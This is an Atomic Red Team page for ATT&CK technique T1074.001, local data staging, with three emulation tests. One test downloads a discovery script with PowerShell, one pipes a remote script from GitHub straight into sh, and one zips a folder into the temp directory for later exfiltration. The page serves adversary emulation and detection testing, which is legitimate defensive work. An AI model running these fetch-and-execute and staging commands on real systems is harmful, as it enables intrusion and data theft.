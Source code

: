 # T1074.001 - Data Staged: Local Data Staging
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1074/001)
<blockquote>

Adversaries may stage collected data in a central location or directory on the local system prior to Exfiltration. Data may be kept in separate files or combined into one file through techniques such as [Archive Collected Data](https://attack.mitre.org/techniques/T1560). Interactive command shells may be used, and common functionality within [cmd](https://attack.mitre.org/software/S0106) and bash may be used to copy data into a staging location.

Adversaries may also stage collected data in various available formats/locations of a system, including local storage databases/repositories or the Windows Registry.(Citation: Prevailion DarkWatchman 2021)

</blockquote>

## Atomic Tests

- [Atomic Test #1 - Stage data from Discovery.bat](#atomic-test-1---stage-data-from-discoverybat)

- [Atomic Test #2 - Stage data from Discovery.sh](#atomic-test-2---stage-data-from-discoverysh)

- [Atomic Test #3 - Zip a Folder with PowerShell for Staging in Temp](#atomic-test-3---zip-a-folder-with-powershell-for-staging-in-temp)


<br/>

## Atomic Test #1 - Stage data from Discovery.bat
Utilize powershell to download discovery.bat and save to a local file. This emulates an attacker downloading data collection tools onto the host. Upon execution,
verify that the file is saved in the temp directory.

**Supported Platforms:** Windows


**auto_generated_guid:** 107706a5-6f9f-451a-adae-bab8c667829f





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| output_file | Location to save downloaded discovery.bat file | path | $env:TEMP&#92;discovery.bat|


#### Attack Commands: Run with `powershell`! 


```powershell
Invoke-WebRequest "https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1074.001/src/Discovery.bat" -OutFile #{output_file}
```

#### Cleanup Commands:
```powershell
Remove-Item -Force #{output_file} -ErrorAction Ignore
```





<br/>
<br/>

## Atomic Test #2 - Stage data from Discovery.sh
Utilize curl to download discovery.sh and execute a basic information gathering shell script

**Supported Platforms:** Linux, macOS


**auto_generated_guid:** 39ce0303-ae16-4b9e-bb5b-4f53e8262066





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| output_file | Location to save downloaded discovery.bat file | path | /tmp/T1074.001_discovery.log|


#### Attack Commands: Run with `sh`! 


```sh
curl -s https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1074.001/src/Discovery.sh | sh -s > #{output_file}
```

#### Cleanup Commands:
```sh
rm #{output_file}
```



#### Dependencies:  Run with `sh`!
##### Description: Check if curl is installed on the machine.
##### Check Prereq Commands:
```sh
if [ -x "$(command -v curl)" ]; then echo "curl is installed"; else echo "curl is NOT installed"; exit 1; fi
```
##### Get Prereq Commands:
```sh
which apt && apt update && apt install -y curl || which pkg && pkg update && pkg install -y curl
```




<br/>
<br/>

## Atomic Test #3 - Zip a Folder with PowerShell for Staging in Temp
Use living off the land tools to zip a file and stage it in the Windows temporary folder for later exfiltration. Upon execution, Verify that a zipped folder named Folder_to_zip.zip
was placed in the temp directory.

**Supported Platforms:** Windows


**auto_generated_guid:** a57fbe4b-3440-452a-88a7-943531ac872a





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| output_file | Location to save zipped file or folder | path | $env:TEMP&#92;Folder_to_zip.zip|
| input_file | Location of file or folder to zip | path | PathToAtomicsFolder&#92;T1074.001&#92;bin&#92;Folder_to_zip|


#### Attack Commands: Run with `powershell`! 


```powershell
Compress-Archive -Path "#{input_file}" -DestinationPath #{output_file} -Force
```

#### Cleanup Commands:
```powershell
Remove-Item -Path #{output_file} -ErrorAction Ignore
```





<br/>
